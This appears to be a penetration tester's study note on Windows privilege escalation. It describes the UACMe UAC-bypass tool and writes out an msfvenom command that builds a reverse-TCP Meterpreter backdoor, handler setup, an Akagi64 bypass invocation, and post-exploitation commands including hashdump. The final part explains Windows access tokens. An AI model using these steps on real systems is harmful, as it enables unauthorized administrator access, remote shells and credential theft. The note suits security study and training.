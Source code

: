 **UACMe:**

- UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
    - GitHub: https://github.com/hfiref0x/UACME
- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

**Creating backdoor:**

- *msfvenom -p windows/meterpreter/reversi_tcp LHOST=hostmachineIP LPORT=someport -f exe > backdoor.exe*
 
### UAC Msfconsole

> use multi/handler

> set payload windows/meterpreter/reverse_tcp

> etc.

On the target machine upload backdoor exec and the UACMe Akagi64 exec to Temp directory.

Then:

- .\Akagi64.exe 23 C:\pathtobackdor 

Now we should have connected with meterpreter with escalated privilidges.

### Handy commands

**Meterpreter:**

- getprivs
- pgrep
- **hashdump**


**Windows Shell:**

- systeminfo
- whoami
- getuid 
- net user
- net localgroup administrators
- ps (list of processes)

Migrating:

- migrate [process]

## Access Token Impersonation

- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
